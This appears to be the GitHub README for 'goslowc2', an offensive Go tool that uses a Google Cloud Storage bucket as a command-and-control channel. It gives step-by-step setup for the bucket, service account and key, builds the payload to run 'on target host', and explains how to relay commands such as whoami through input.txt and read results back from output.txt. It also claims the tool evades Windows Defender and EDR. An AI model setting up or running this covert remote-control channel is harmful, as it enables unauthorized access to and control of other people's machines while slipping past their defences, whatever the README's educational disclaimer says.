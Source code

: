 # goslowc2
A demonstration of using GoLang and GCP Storage for a quick and easy evasion payload.

### Why?
1. Found GoLang is not as widely supporter for reverse engineering tools without plugins or some tuning which also infers that EDR platforms haven't caught up as much either
2. GoLang allows the advantage of scripting language but the performance of a compiled language because you can 'go build foo.go' something
3. Google Cloud Platform (GCP) Storage SDK automatically allows for authentication TLS v1.2 secure endpoints and a scratch pad for input and output for easy asynchronous communication
4. Running GoLang os.exec and the syscall.call methods to unsafe (non type casted) unsigned integer pointers C style for interesting Windows 10/11 Q4 2022 Defender default 'evasion' shell or additional payload routines vs. the C running the system method that immediately triggers a backdoor alert and cloud scan
5. General grudge: Google SOC sent me a nasty gram about my C payload stored in my personal Google Drive account. GoLang was may by Google Developers. I wanted to make it ironic because this would have been so much easier using a packer + python3.
6. Maybe you don't have access to the standard MSF multi/handler in a pen test?

### Complementing gowrap module
This module is to demonstrate using os.exec to wrap and execute another Go script or binary as a subprocess which easily can trigger an IOC but also allows for easy ingestion (with some modification) of running input.txt with straight GoLang WinAPI sys calls for future "evasion" considerations. I also included notes about some strange behaviors found when using user32.dll MessageBoxA.


## Code Setup
go mod init goslowc2/main
go get cloud.google.com/storage
go build goslowc2

## GCP Storage bucket setup

    gsutil mb gs://BUCKET_NAME
    
    gcloud iam service-accounts create SA_NAME \
        --description="DESCRIPTION" \
        --display-name="DISPLAY_NAME"
    
    gcloud projects add-iam-policy-binding PROJECT_ID \
        --member="serviceAccount:SA_NAME@PROJECT_ID.iam.gserviceaccount.com" \
        --role="ROLE_NAME"
    
For CLI need to create YAML for the permissions to bind to a role

    title: goslow-role  
    description: foo  
    stage: GA  
    includedPermissions:  
    -  storage.objects.create  
    -  storage.objects.get   

Create the role at the project level

    gcloud iam roles create role-id --project=project-id \
        --file=yaml-file-path

Bind the role to the service account

    gcloud iam service-accounts add-iam-policy-binding \  SA_NAME@PROJECT_ID.iam.gserviceaccount.com \  --member="user:USER_EMAIL"  \  --role="roles/iam.serviceAccountUser"

Grab a JSON key to download and run in the same directory as goslowc2

    gcloud iam service-accounts keys create KEY_FILE \
        --iam-account=SA_NAME@PROJECT_ID.iam.gserviceaccount.com

## Using the C2 Channel
1. Create a input.txt in the root namespace of your **bucket** with a single command syntax such as "whoami" or "dir"
2. Run goslowc2.exe on targethost
3. Wait for the output.txt to show up in your bucket in the same root namespace
4. gsutil cp gs://YOURBUCKET/*.txt ./
5. cat ./output.txt
6. echo "whoami" > input.txt
7. gsutil cp ./input.txt gs://YOURBUCKET


## Runtime
**IMPORTANT**: Be sure to modify any variables in the code before building as the initial values are for demo purposes only

    cp <yourserviceaccountkey.json> ./
    go build goslowc2.go
    goslowc2.exe #this is going to be your payload running on target host

![enter image description here](https://github.com/dc401/goslowc2/blob/main/screenshots/runtime2.png?raw=true)

![enter image description here](https://github.com/dc401/goslowc2/blob/main/screenshots/runtime1.png?raw=true)

## Notes
**DISCLAIMER**: The author is NOT responsible for misuse or abuse of this educational source
// goslowc2 is a demo payload execution for using GCP Storage bucket and objects as the C2 mechanism the time of development Q4 2022 windows defender did not trigger the OS.exec method unless functions were stripped at build time

// For stealthier payload consider using my complement consider using direct WinAPI syscalls converting to unsigned integer pointers

// Author: Dennis Chow dchow[AT]xtecsystems.com 11/20/2022

// Requirements: GCP storage bucket and service account credential foo.json in the same runtime directory

// Confirmed working on GoLang 1.18.4 and GCP Storage SDK 1.28.0
